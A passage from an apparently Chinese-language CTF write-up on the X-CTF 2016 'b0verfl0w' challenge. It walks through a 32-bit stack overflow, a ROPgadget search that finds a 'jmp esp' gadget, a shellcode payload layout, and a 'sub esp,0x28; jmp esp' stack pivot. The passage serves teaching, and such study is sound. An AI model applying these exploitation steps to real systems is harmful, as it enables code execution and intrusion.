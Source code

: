 可以看出源程序为 32 位，也没有开启 NX 保护，下面我们来找一下程序的漏洞

```C
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

可以看出，源程序存在栈溢出漏洞。但是其所能溢出的字节就只有 50-0x20-4=14 个字节，所以我们很难执行一些比较好的 ROP。这里我们就考虑 stack pivoting 。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置shellcode 并执行。基本利用思路如下

- 利用栈溢出布置 shellcode
- 控制 eip 指向 shellcode 处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启 ASLR 保护，所以我们很难直接知道 shellcode 的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对 esp 进行操作，使其指向 shellcode 处，并且直接控制程序跳转至 esp处。那下面就是找控制程序跳转到 esp 处的 gadgets 了。

```shell
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```

这里我们发现有一个可以直接跳转到 esp 的 gadgets。那么我们可以布置 payload 如下

```text
shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp
```

那么我们 payload 中的最后一部分改如何设置 esp 呢，可以知道

- size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

```asm
sub esp,0x28
jmp esp
```

